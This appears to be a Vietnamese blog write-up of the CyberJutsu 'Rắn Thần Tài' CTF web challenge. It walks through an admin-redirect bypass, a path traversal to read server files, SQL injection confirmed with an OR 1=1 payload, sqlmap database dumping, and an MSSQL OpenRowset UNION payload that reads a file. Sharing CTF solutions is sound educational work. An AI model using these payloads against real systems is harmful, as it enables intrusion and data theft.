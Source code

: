 ```yaml
---
layout: post
title: Writeup Challenge Rắn Thần Tài CyberJutsu
categories: [CTF, Writeup]
tags: [web, lfi, sqli, bac]
date: 2025-02-19 18:39 +0700
media_subpath: '/assets/img/writeups/ran-than-tai-cbjs-2025/'
image:
  path: banner.png
---
```


Dịp Tết Ất Tỵ 2025 vừa qua, mình được một ông anh share cho challenge **Rắn Thần Tài** của bên CyberJutsu. Cơ mà lu bu mãi tới giờ mình mới lên bài được hehe =))

Vào việc thôi~

![Writeup](ran-than-tai.png)

Link: `http://206.189.39.54:8085/`

Như mọi khi, việc đầu tiên mình làm chính là recon, xem source trước, và mình tìm được ngay Easter Egg đầu tiên

![](easter-egg-1.png)

`Easter Egg 1: CBJS_EASTER_EGG{Part 1: https://lixi.momo.vn/}`

Tiếp theo, kiểm tra `robots.txt`, ta thấy `/appsettings.json` được đặt vô tình một cách đầy cố ý. Ngoài ra, khi truy cập vào các path như `/Areas`, `/Controllers`, không có gì trả về cả nhưng khi truy cập vào `/Admin` thì lại xuất hiện **404 not found**, khá lạ nhỉ

Mình thử bật **DevTools** lên, chuyển qua tab **Network** rồi load lại trang, vậy là mình thấy Easter Egg thứ hai

![](easter-egg-2.png)

`Easter Egg 2: CBJS_EASTER_EGG{Part 2: /lixi/9o3}`

Check tiếp tới `/Game`, đây cơ bản là game rắn săn mồi. Ở đây mình thấy khá nhiều bạn chơi được điểm cao nên mình cũng tò mò làm thử

Cụ thể thì sau mỗi lần thua, 1 **POST request** sẽ được gửi tới server để lưu kết quả lại, ta chỉ cần dùng **Burp Suite** chỉnh số cao lên là được :v

![](easter-egg-5.png)

`Easter Egg 5: CBJS_EASTER_EGG{Part 5 (final): 1R5b}`

Quay lại source của `/Game`, mình thấy có một vài endpoint như  `/Game/Feedback`, `/Admin/EditBackground` và `/api/ranking`, check lần lượt cả các endpoint này thì:

Trong `/Game/Feedback`, để ý 1 chút ta sẽ thấy 1 đoạn `base64` nằm ở dưới cùng, decode phát là ta đã có Easter Egg 3

![](easter-egg-3.png)

`Easter Egg 3: CBJS_EASTER_EGG{Part 3: XA5V}`

Khi truy cập `/Admin/EditBackground`, mình thấy nó redirect về `/Game`, tuy nhiên, mình có thể sử dụng **Burp Suite** để intercept request trước khi redirect

Xong mình chỉ lướt xuống là thấy ngay flag Admin Panel

![](flag-4.png)

`Flag 4: CBJS{Unauthorized_Access_On_Admin_Panel_Because_Lack_Of_Proper_Redirection}`

Đi sâu hơn tí nữa, mình biết được endpoint này dùng để thay background với param là `selectedBackground`

![](selectedBackground.png)

Vì vậy nên mình đã tạo một cái **POST request** để update xem sao, nhưng mà response trả về hơi lạ nhờ

![](lfi.png)

![](https://i.imgur.com/f5G9lxX.png)

Có vẻ như server đã đọc luôn file ảnh đó để làm **preview content**, nhưng điều này khiến nó bị dính vuln **Path Traversal**

Tận dụng vuln này, mình đã có thể lấy được `/tmp/FLAG_WEB`. Tuy nhiên thì mình lại không tiện tay lấy luôn `/tmp/FLAG_DBSERVER` được

![](flag-1.png)

`Flag 1: CBJS{Happy_Year_Of_The_Snake}`

Hmm, hồi đầu khi recon, mình có tìm được 1 file `/appsettings.json`, thế tại sao ta lại không thử luôn nhỉ?

Và vậy là chỉ sau 2 lần `../`, mình đã có được Easter Egg cuối cùng :3

![](easter-egg-4.png)

`Easter Egg 4: CBJS_EASTER_EGG{Part 4: VMNp}`

Còn 2 flag nữa nên mình clear cho xong luôn

Lúc nãy, ta vẫn còn 1 endpoint chưa test đó là `/api/ranking`. Tại đây mình có được param `sortParam`, tuy nhiên thì mình không tìm ra được bug

Bí nước, mình bắt đầu quay ra chạy scan, và mình scan được endpoint `search` và param `searchTerm`

![](scan.png)

Vì 2 flag còn lại đều liên quan tới database, nên mình cũng ít nhiều đoán được đây có thể là lỗ hổng liên quan tới SQL, và đúng là như thế thật

Chỉ cần quăng `test'OR 1=1;--`, mình đã có thể confirm điều này

Vấn đề còn lại là khai thác để lấy flag thôi, tuy nhiên, mình là một con gà về SQL, nên mình quyết định để cho `sqlmap` xử lý hết, cảm ơn `sqlmap` =)))

```sh
sqlmap -u 'http://206.189.39.54:8085/api/ranking/search?searchTerm=' -p "searchTerm" --dbs

back-end DBMS: Microsoft SQL Server 2022
[*] model
[*] msdb
[*] MyAppDB
[*] tempdb

sqlmap -u 'http://206.189.39.54:8085/api/ranking/search?searchTerm=' -p "searchTerm" -D MyAppDB --tables

Database: MyAppDB
[2 tables]
+-------------+
| CyberJutsu  |
| SnakeScores |
+-------------+

sqlmap -u 'http://206.189.39.54:8085/api/ranking/search?searchTerm=' -p "searchTerm" -D MyAppDB -T CyberJutsu --dump

Database: MyAppDB
Table: CyberJutsu
[1 entry]
+----+--------------------------------+
| Id | flag                           |
+----+--------------------------------+
| 1  | CBJS{SQL_Injection_is_a_jutsu} |
+----+--------------------------------+
```

`Flag 3: CBJS{SQL_Injection_is_a_jutsu}`


Còn lại flag 2, lúc nãy mình đã thử đọc thông qua lỗ hổng **Path Traversal** nhưng không được, nên mình suy đoán ta chỉ có thể đọc bằng lỗ hổng **SQL Injection**

Để đọc được cũng không khó, từ lần chạy `sqlmap` cũng như Easter Egg 4, mình đã biết đây là **Microsoft SQL Server** hay **MSSQL**

Research một tí, mình tìm được cách đọc file trong MSSQL bằng cách dùng [OPENROWSET](https://www.geeksforgeeks.org/reading-a-text-file-with-sql-server/). Vậy giờ ta chỉ cần xác định số lượng columns rồi lụm flag

Cơ mà văn vở vậy thôi, sau khi mình biết nó là **MSSQL** mình đã bay ngay vào [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md) để tìm payload cho nhanh rồi

![](https://i.imgur.com/EJJTJxd.png)

```sql
0'union select 0,(select x from OpenRowset(BULK '/tmp/FLAG_DBSERVER',SINGLE_CLOB) R(x)),2;--
```

![](flag-2.png)

`Flag 2: CBJS{Have_you_Seen_Microsoft_SQL_Server_is_running_on_Linux?}`

Đây là link lì xì nè: [https://lixi.momo.vn/lixi/9o3XA5VVMNp1R5b](https://lixi.momo.vn/lixi/9o3XA5VVMNp1R5b)

Sad fact: Hồi đầu lúc challenge mới mở mình đã tìm được hết flag, nhưng vì Easter Egg 3 bị lỗi nên mình không húp lì xì được, lúc mình thấy link update thì lì xì đã hết :(

Cảm ơn mọi người đã đọc <3
